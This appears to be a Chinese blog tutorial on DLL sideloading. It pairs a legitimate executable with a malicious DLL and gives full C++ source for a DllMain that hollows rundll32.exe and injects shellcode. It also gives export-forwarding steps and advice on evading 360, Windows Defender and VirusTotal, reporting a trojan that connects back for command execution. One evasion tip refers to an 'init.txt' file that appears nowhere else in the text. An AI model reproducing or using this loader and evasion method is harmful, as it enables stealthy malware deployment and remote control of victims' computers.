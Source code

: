 # 白exe寻找

一个一个地找，可以用process monitor动态查找，也可以用dependencies静态查找，静态查找只能找到一小部分的 dll，要想找到所有 dll 必须依靠动态查找

如果用process monitor需要设置一些规则：

- Path contains dll（过滤出所有加载的dll文件）
- Result is NAME NOT FOUND（运行是没有找到dll）
- path begin with xxx（用你运行exe的目录）

这样就可以将exe放到一个新的空文件夹直接运行查看效果了

我这里找到一个就直接用静态展示了

![image-20250719101747951](images/1.png)

这里找到一个加载当前目录dll的exe，也不是很大，运行效果就cmd闪烁一下

# 黑DLL编写

用Visual Stdio新建一个dll项目

dllmain.cpp代码：

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <iostream>
using namespace std;

unsigned char payload[] = "\xfc\xe8...";
unsigned int payload_len = sizeof payload - 1;

BOOL APIENTRY DllMain(HMODULE hModule,
  DWORD  ul_reason_for_call,
  LPVOID lpReserved
)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH: {
    char* v7A = (char*)VirtualAlloc(0, payload_len, 0x3000u, 0x40u);
    memcpy((void*)v7A, payload, payload_len);

    struct _PROCESS_INFORMATION ProcessInformation;
    struct _STARTUPINFOA StartupInfo;
    void* v24;
    CONTEXT Context;
    memset(&StartupInfo, 0, sizeof(StartupInfo));
    StartupInfo.cb = 68;
    BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo, &ProcessInformation);
    if (result)
    {
      Context.ContextFlags = 65539;
      GetThreadContext(ProcessInformation.hThread, &Context);
      v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, payload_len, 0x1000u, 0x40u);
      WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, payload_len, NULL);
            // 32 位使用 Context.Eip = (DWORD_PTR)v24;
      Context.Rip = (DWORD_PTR)v24;
      SetThreadContext(ProcessInformation.hThread, &Context);
      ResumeThread(ProcessInformation.hThread);
      CloseHandle(ProcessInformation.hThread);
      result = CloseHandle(ProcessInformation.hProcess);
    }

    TerminateProcess(GetCurrentProcess(), 0);
  }

  case DLL_THREAD_ATTACH:
  case DLL_THREAD_DETACH:
  case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}
```

如果直接编译会出现问题，需要将dll的函数导出，用带aheadlib插件的dependencies可以快捷导出

这里需要到原本exe的目录下导出，才有具体的内容

![image-20250719102802768](images/2.png)

![image-20250719102839081](images/3.png)

查看导出的c文件，将这段文件复制到pch.cpp中

```
#pragma comment(linker,"/EXPORT:Handler=AL_Handler,@1")
#pragma comment(linker,"/EXPORT:RC=AL_RC,@2")
#pragma comment(linker,"/EXPORT:RCW=AL_RCW,@3")
```

![image-20250719102910316](images/4.png)

写一个新的函数直接退出，将所有linker都链接到新函数上去

![image-20250719103053816](images/5.png)

编译的时候需要静态编译，不然在其他没有对应库的电脑上运行也会报错

![image-20250719103650830](images/6.png)

如果是Debug方式编译选择MTD，如果是Release方式编译选择MT

可以使用 Release 模式编译以避免调试符号

我debug编译的木马被360识别了，换做了release编译就没有报毒了

![image-20250719111113122](images/7.png)

windows defender的静态查杀也没有问题

![image-20250719111309556](images/8.png)

运行后迁移进程到rundll32.exe上线

![image-20250719111357658](images/9.png)

正常的命令执行通信正常

![image-20250719111422687](images/10.png)

而且还可以使用intel c++编译器，相比于vs默认的编译器，intel c++编译器编译的exe特征更少、报毒更低，在代码层面免杀时在VT上可以很轻松达到0查杀

![image-20250719110911487](images/11.png)



如需进一步提升免杀效果，可尝试以下方式：

- 将 `init.txt` 内容进一步混淆（如 Base64 + XOR 双重编码）
- 加入垃圾代码、时间延迟、API 动态解析（`GetProcAddress`）等混淆策略
- 使用 `NtCreateThreadEx`、`QueueUserAPC` 等较冷门注入方式
- 用 `Reflective DLL Injection` 方式加载自身
- 用 `Manual Mapping` 注入自身模块

不过这种进程注入的方式还是很容易报毒的，可以去寻找那种静态编译的白exe，最好是在后台运行的，之前别朋友发了我一个动态编译的后台静默运行的exe，放在其他电脑上很容易发生dll缺失的情况





参考链接：

https://cloud.tencent.com/developer/article/2360981

